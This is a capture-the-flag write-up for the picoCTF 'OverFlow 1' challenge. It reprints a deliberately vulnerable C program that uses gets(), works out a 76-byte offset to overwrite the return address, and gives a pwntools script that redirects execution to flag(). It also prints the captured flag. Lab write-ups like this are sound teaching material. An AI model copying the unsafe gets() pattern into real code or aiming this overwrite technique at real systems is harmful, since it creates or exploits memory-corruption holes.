 # OverFlow 1

## description

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](./vuln)? You can find it in /problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a on the shell server. [Source](./vuln.c).

## solution

We can see that the ```vuln()``` function takes user input and stores it in a char array with a buffer size of 64.
There's also a flag() function that will print the flag if we can call it.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

To call the flag function, we can overwrite the return address of the vulnerable function.
Consider the structure of the call stack:

```
Local variables
EBP
Arguments
Return Address
```

Because the stack grows downwards, anything we write thats longer than the space allocated for local variables will overwrite EBP then, arguments, then the return address.
In this case, we aren't concerned with arguments.

We can see that the buffer size of the char array in ```vuln()``` is 64.
Some more space is reserved for other local variables, but we can start inputting 64 bytes, followed by some recognisable pattern, such as AAAABBBBCCCCDDDD...

Given this input, the program prints 0x44444444 as the return address.
We can also check the value of EBP using GDB and see that it is 0x43434343, from here we could infer that, because there were no arguments pushed to this stack, the next characters would be the return address.

A total of 80 bytes were required to completely overwrite the return address, including 76 bytes of padding, and a new 32-bit address.
By replacing the value 0x44444444 that's currently present in our input with the address of ```flag()```, we can redirect the program to the desired function.

We can use a tool like GDB or Radare2 to print a list of functions and find the address of the flag function.
In this case, it is 0x080485e6.

## exploit script

Using what we had discovered in the steps prior, we know that we need to send the program 76 bytes, followed by the address.
I'm using pwntools as usual to connect to the process, and I'm printing the address using the ```p32()``` function, which will automatically format it in little endian.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)

print("sending payload")
vuln.sendlineafter('\n', ('A' * 76).encode() + p32(0x080485e6))
vuln.recvline()

print("done")
vuln.interactive()
```

Flag: ```picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}```

